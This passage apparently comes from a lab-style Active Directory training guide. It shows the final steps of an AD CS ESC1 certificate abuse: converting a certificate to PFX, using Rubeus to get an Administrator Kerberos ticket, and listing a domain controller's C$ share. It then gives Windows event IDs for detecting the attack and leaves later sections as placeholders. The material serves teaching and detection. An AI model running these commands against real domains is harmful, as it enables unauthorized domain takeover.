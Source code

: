 `sed -i 's/\s\s\+/\n/g' cert.pem`

Then we can execute the openssl command mentioned in the output of Certify.

`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`

Now that we have the certificate in a usable PFX format (which Rubeus supports), we can request a Kerberos TGT for the account Administrator and authenticate with the certificate:

`PS C:\Users\bob\Downloads> .\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt`

After successful authentication, we will be able to list the content of the C$ share on DC1:

`PS C:\Users\bob\Downloads> dir \\dc1\c$`

*Detection*: When the CA generates the certificate, two events will be logged, one for the received request and one for the issued certificate, if it succeeds. Those events have the IDs of 4886 and 4887.

Finally, if you recall, in the attack, we used the obtained certificate for authentication and obtained a TGT; AD will log this request with the event ID 4768, which will specifically have information about the logon attempt with a certificate.

## PKI - ESC2

*Coming soon...*

## PKI - ESC3

*Coming soon...*

## PKI - ESC4

*Coming soon...*

## PKI - ESC5

*Coming soon...*

## PKI - ESC6

*Coming soon...*

## PKI - ESC7

*Coming soon...*

## PKI - ESC8

*Coming soon...*
